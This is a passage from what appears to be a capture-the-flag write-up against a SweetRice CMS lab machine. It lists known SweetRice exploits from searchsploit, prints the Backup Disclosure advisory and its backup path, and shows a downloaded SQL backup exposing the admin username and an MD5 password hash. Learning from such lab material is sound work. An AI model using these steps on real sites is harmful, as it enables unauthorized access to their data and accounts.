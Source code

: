 ```bash
└─$ searchsploit SweetRice
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
---------------------------------------------------------------------------------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                 | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                              | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                               | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                 | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                     | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                            | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution       | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                   | php/webapps/14184.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Well, `SweetRice` have several vulnerabilities associated with it. We shall start with `Backup Disclosure` to see if we can have something useful on its backup.

If you `cat` out the `php/webapps/40718.txt` we can see the where the backup is stored.

```bash
└─$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016

Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip
```

We shall navigate to `http://10.10.249.217/content/inc/mysql_backup` and we would find the backup. Download the backup from there then we have a look at it.

![Backup](backup.png)_backup_
```bash
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
